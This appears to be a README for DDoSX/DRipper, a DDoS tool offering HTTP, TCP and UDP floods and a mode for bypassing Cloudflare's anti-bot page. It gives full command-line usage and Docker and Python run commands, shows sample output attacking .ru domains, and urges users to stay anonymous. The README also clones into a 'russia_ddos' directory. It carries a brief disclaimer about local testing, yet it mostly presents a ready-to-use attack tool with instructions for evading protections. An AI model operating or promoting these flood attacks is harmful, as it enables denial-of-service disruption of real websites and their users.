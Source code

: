 # DDoSX

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DDoSX](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
───────────────────────────────────────── Starting DRipper ─────────────────────────────────────────
[23:17:39] (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Trying to connect...      services.py:135
           (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Connected                 services.py:138
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Trying to connect...  services.py:135
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Connected             services.py:138
────────────────────────────────────────────────────────────────────────────────────────────────────


                          
                                           ██████╗░██████╗░░█████╗░░██████╗██╗░░██╗
                                           ██╔══██╗██╔══██╗██╔══██╗██╔════╝╚██╗██╔╝
                                           ██║░░██║██║░░██║██║░░██║╚█████╗░░╚███╔╝░
                                           ██║░░██║██║░░██║██║░░██║░╚═══██╗░██╔██╗░
                                           ██████╔╝██████╔╝╚█████╔╝██████╔╝██╔╝╚██╗
                                           ╚═════╝░╚═════╝░░╚════╝░╚═════╝░╚═╝░░╚═╝
                                                                    v2.0.0

                                      It is the end user's responsibility to obey all applicable laws.
                                      It is just like a server testing script and Your IP is visible.
                                      Please, make sure you are ANONYMOUS!

                                                     https://github.com/Alanz-Host/DDoSX


 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-08 23:17:29  (0:00:14)
  Your Country, Public IP                     DK   45.***.***.***
  Total Threads                               200
  vCPU Count                                  8
  Socket Timeout (seconds)                    1
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Target (tcp://www.site1.ru:80/)             1/2 (next in 1)
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  192.168.0.101:80 (target-0)
  Attack Method                               TCP-FLOOD
  Random Packet Length (bytes)                From 1 to 1024
  Threads                                     100
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               ...detecting (TCP method)
  Sent Bytes @ AVG speed                      1.73 MB @ 119.76 kB/s
  Sent Packets @ AVG speed                      3,531 @ 238 packets/s
  Connections                                 success: 100, failed: 0, success rate: 100 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [23:17:40]   info   target-0  thread-14   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-114  Creating new TCP connection...
  [23:17:40]   info   target-0  thread-16   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-20   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-22   Creating new TCP connection...

                                 Press CTRL+C to interrupt process.

                                         #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  --min-random-packet-len=MIN_RANDOM_PACKET_LEN
                                                        Min random packets length. Default: 1 for udp/tcp
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy                                                    
  --dry-run                                             Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.
  -d DURATION_SECONDS, --duration=DURATION_SECONDS      Attack duration in seconds. After this duration script will 
                                                        stop its execution.                                                   

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm Alanz-Host/ddosx:latest -t 100 -m http-flood -s http://127.0.0.1:80 
# or
docker run -it --rm Alanz-Host/ddosx:latest -t 100 -s http://127.0.0.1:80
# or even
docker run -it --rm Alanz-Host/ddosx:latest -s http://127.0.0.1

# TCP flood
docker run -it --rm Alanz-Host/ddosx:latest -t 100 -l 2048 -s tcp://127.0.0.1:80 

# UDP flood
docker run -it --rm Alanz-Host/ddosx:latest -t 100 -l 2048 -s udp://127.0.0.1:80 
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/Alanz-Host/DDoSX.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/Alanz-Host/DDoSX.git
# Run script
dripper -t 100 -s udp://127.0.0.1:80


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -t 100 -s udp://127.0.0.1:80
```

## How to run unit tests

#### Prepare
```bash
pip install -r requirements.test.txt
```

#### Run
```bash
pytest

# with code coverage report:
pytest --cov-report=html:./htmlcov
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.
